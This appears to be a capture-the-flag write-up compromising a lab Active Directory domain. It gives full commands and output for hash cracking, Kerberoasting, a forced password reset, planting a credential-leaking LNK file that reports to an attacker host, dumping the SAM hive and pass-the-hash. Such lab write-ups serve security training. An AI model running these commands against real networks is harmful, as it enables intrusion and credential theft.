



# BuildingMagic

| Field                 | Value                                               |
| --------------------- | --------------------------------------------------- |
| **Category**          | Active Directory Penetration Testing                |
| **Difficulty**        | Medium                                              |
| **Domain**            | `BUILDINGMAGIC.LOCAL`                               |
| **Domain Controller** | `DC01` — `10.0.17.7`                                |
| **Objective**         | Full compromise of the Active Directory environment |

***

## Setup

Add the following entries to `/etc/hosts` before starting:

```
10.0.17.7   buildingmagic.local
10.0.17.7   dc01.buildingmagic.local
```

***

## 1. Credentials Analysis

A leaked database was provided as the starting point, containing usernames and MD5-hashed passwords for 10 domain accounts.

| ID | Username       | Full Name            | Role           | MD5 Hash      |
| -- | -------------- | -------------------- | -------------- | ------------- |
| 1  | r.widdleton    | Ron Widdleton        | Intern Builder | `c4a21c4d...` |
| 2  | n.bottomsworth | Neville Bottomsworth | Planner        | `61ee643c...` |
| 3  | l.layman       | Luna Layman          | Planner        | `8960516f...` |
| 4  | c.smith        | Chen Smith           | Builder        | `bbd151e2...` |
| 5  | d.thomas       | Dean Thomas          | Builder        | `4d14ff3e...` |
| 6  | s.winnigan     | Samuel Winnigan      | HR Manager     | `078576a0...` |
| 7  | p.jackson      | Parvati Jackson      | Shift Lead     | `eada74b2...` |
| 8  | b.builder      | Bob Builder          | Electrician    | `dd4137ba...` |
| 9  | t.ren          | Theodore Ren         | Safety Officer | `bfaf794a...` |
| 10 | e.macmillan    | Ernest Macmillan     | Surveyor       | `47d23284...` |

After cracking the hashes offline, two valid plaintext credentials were recovered:

```
r.widdleton : lilronron
t.ren        : shadowhex7
```

***

## 2. Credentials Validation

SMB authentication was tested with `r.widdleton` using NetExec:

```bash
nxc smb buildingmagic.local -u 'r.widdleton' -p 'lilronron' --shares
```

**Result:** Authentication successful. Shares enumerated:

| Share      | Permissions | Remark                                       |
| ---------- | ----------- | -------------------------------------------- |
| ADMIN$     | —           | Remote Admin                                 |
| C$         | —           | Default share                                |
| File-Share | —           | Central Repository of Building Magic's files |
| IPC$       | READ        | Remote IPC                                   |
| NETLOGON   | —           | Logon server share                           |
| SYSVOL     | —           | Logon server share                           |


`r.widdleton` had no write access to `File-Share` at this stage. Further enumeration was needed.


***

## 3. BloodHound Data Collection

BloodHound data was collected over LDAP using the NetExec BloodHound module:

```bash
nxc ldap dc01.buildingmagic.local -u 'r.widdleton' -p 'lilronron' \
  --bloodhound --collection All --dns-server 10.0.17.7
```

Collection methods resolved: `acl, adcs, container, dcom, group, localadmin, loggedon, objectprops, psremote, rdp, session, trusts`


ADCS enumeration returned 0 certificate templates and 0 Enterprise CAs — no ESC attack paths were available.


***

## 4. BloodHound Analysis



> BloodHound node view for `R.WIDDLETON@BUILDINGMAGIC.LOCAL`

Analysis of `r.widdleton` showed:

* No write access over any AD objects
* Not a member of any privileged or interesting groups
* `Password Never Expires: TRUE`
* `Do Not Require Pre-Authentication: FALSE`

BloodHound's **Kerberoastable Users** query revealed a single target:



> BloodHound Pathfinding showing `R.HAGGARD@BUILDINGMAGIC.LOCAL` as the only Kerberoastable user

**Attack path identified:**

1. Kerberoast `r.haggard` to obtain and crack their TGS ticket
2. Use `r.haggard`'s `ForceChangePassword` privilege to reset `h.potch`'s password

***

## 5. Compromising `r.haggard` — Kerberoasting

Kerberoasting requests TGS tickets for accounts with SPNs set. These tickets are encrypted with the account's password hash and can be cracked offline.

```bash
nxc ldap dc01.buildingmagic.local -u 'r.widdleton' -p 'lilronron' \
  --kerberoasting output.txt
```

One Kerberoastable account was found:

```
sAMAccountName : r.haggard
memberOf       : []
```

The TGS ticket hash was captured into `output.txt`:

```
$krb5tgs$23$*r.haggard$BUILDINGMAGIC.LOCAL$BUILDINGMAGIC.LOCAL\r.haggard*$9db208c5...
```

### Cracking the Hash

```bash
hashcat -m 13100 output.txt /usr/share/wordlists/rockyou.txt
```


**Cracked:** `r.haggard : rubeushagrid`


SMB validation confirmed the credentials. `r.haggard` now has READ access to `NETLOGON` and `SYSVOL`.

***

## 6. Compromising `h.potch` — ForceChangePassword

BloodHound revealed that `r.haggard` holds the `ForceChangePassword` edge over `h.potch`, meaning the password can be reset without knowing the current one.



> BloodHound abuse info panel for the ForceChangePassword edge on `H.POTCH@BUILDINGMAGIC.LOCAL`

Using Samba's `net rpc` tool:

```bash
net rpc password "h.potch" 'NewPass!@' \
  -U "buildingmagic.local"/"r.haggard"%"rubeushagrid" \
  -S '10.0.17.7'
```


Password changed successfully. `h.potch : NewPass!@`


SMB validation confirmed the new credentials, and `h.potch` has **READ,WRITE** access to `File-Share`.

***

## 7. Capturing `h.grangon` — LLMNR Poisoning via Slinky

With write access to `File-Share`, the `slinky` NetExec module was used to plant a malicious `.lnk` (Windows shortcut) file. When any domain user browses the share, their machine automatically attempts SMB authentication to the attacker-controlled server, leaking their NTLMv2 hash.

```bash
nxc smb buildingmagic.local -u 'h.potch' -p 'NewPass!@' \
  -M slinky -o SERVER=10.200.55.240 SHARES=File-Share NAME=rodkast
```

The LNK file was successfully created on `File-Share`. Responder, listening on `10.200.55.240`, captured the NTLMv2 hash for `h.grangon`:

```
h.grangon::BUILDINGMAGIC:2e892b8635e20f7f:B74280E1743FF770...
```

The hash was cracked offline:


**Cracked:** `h.grangon : magic4ever`


Validation confirmed `h.grangon` has **READ,WRITE** access to `File-Share`.

***

## 8. Post-Exploitation — Abusing SeBackupPrivilege

A WinRM session was opened with `h.grangon` using Evil-WinRM:

```bash
evil-winrm -i dc01.buildingmagic.local -u 'h.grangon' -p 'magic4ever'
```

Running `whoami /priv` revealed a critical privilege:

```
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```


`SeBackupPrivilege` allows reading **any** file on the system regardless of ACLs — including the SAM and SYSTEM registry hives which store local password hashes.


### Dumping the SAM and SYSTEM Hives

```powershell
reg save hklm\sam    C:\Users\h.grangon\Desktop\sam
reg save hklm\system C:\Users\h.grangon\Desktop\system
```

Both files were downloaded to the attacker machine and parsed with Impacket `secretsdump`:

```bash
secretsdump.py -sam sam -system system local
```

**Hashes recovered:**

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:520126a03f5d5a8d836f1c4f34ede7ce:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

***

## 9. Domain Compromise — Pass-the-Hash as `a.flatch`

Listing users on the DC revealed `a.flatch` in the **Administrators** group:

```powershell
net users

# a.flatch   Administrator   Guest
# h.grangon  h.potch         krbtgt
# r.haggard  r.widdleton
```

The recovered Administrator NT hash matched `a.flatch` due to password reuse. A Pass-the-Hash attack was performed directly:

```bash
evil-winrm -u 'a.flatch' \
  -H '520126a03f5d5a8d836f1c4f34ede7ce' \
  -i dc01.buildingmagic.local
```


Shell obtained as `a.flatch` — local Administrator on the Domain Controller.


***

## 10. Root Flag

```powershell
cd C:\Users\Administrator\Desktop
cat root.txt
```

```
<Root-FLAG>
```

***

## Attack Chain Summary

```
Leaked DB (MD5 hashes)
         |
         v
r.widdleton:lilronron  -->  SMB Enumeration + BloodHound Collection
         |
         v
Kerberoasting r.haggard  -->  Hash cracked: rubeushagrid
         |
         v
ForceChangePassword on h.potch  -->  NewPass!@  (Write access to File-Share)
         |
         v
Slinky LNK in File-Share  -->  Responder captures h.grangon NTLMv2 hash
         |
         v
h.grangon:magic4ever  -->  Evil-WinRM shell
         |
         v
SeBackupPrivilege  -->  SAM + SYSTEM dump  -->  secretsdump  -->  Admin NT hash
         |
         v
Pass-the-Hash as a.flatch  -->  Administrator shell  -->  root.txt [DONE]
```

***

## Tools Used

| Tool                                                       | Purpose                                            |
| ---------------------------------------------------------- | -------------------------------------------------- |
| [NetExec (nxc)](https://github.com/Pennyw0rth/NetExec)     | SMB/LDAP enumeration, Kerberoasting, Slinky module |
| [BloodHound](https://github.com/BloodHoundAD/BloodHound)   | AD graph analysis and attack path discovery        |
| [Hashcat](https://hashcat.net/hashcat/)                    | Offline hash cracking (MD5, Kerberos TGS)          |
| [Responder](https://github.com/lgandx/Responder)           | NTLMv2 hash capture via LLMNR/NBT-NS poisoning     |
| [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)    | Remote shell via WinRM                             |
| [Impacket secretsdump](https://github.com/fortra/impacket) | SAM/SYSTEM hive parsing and hash extraction        |
| net rpc (Samba)                                            | Forced password change via RPC                     |
